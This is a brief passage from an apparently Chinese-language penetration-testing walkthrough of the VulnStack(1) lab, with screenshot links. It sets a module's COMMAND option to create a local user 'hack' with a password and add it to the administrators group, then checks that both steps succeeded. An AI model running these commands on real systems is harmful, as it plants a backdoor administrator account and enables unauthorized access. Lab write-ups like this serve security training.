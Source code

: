 修改COMMAND
添加用户:

set COMMAND net user hack qaz@123 /add

验证 net user
![img](VulnStack(1)/images/image-9.png)

添加成功
然后把添加的用户加入管理员组
set COMMAND net localgroup administrators hack /add

验证:
set COMMAND net localgroup administrators
![img](VulnStack(1)/images/image-10.png)
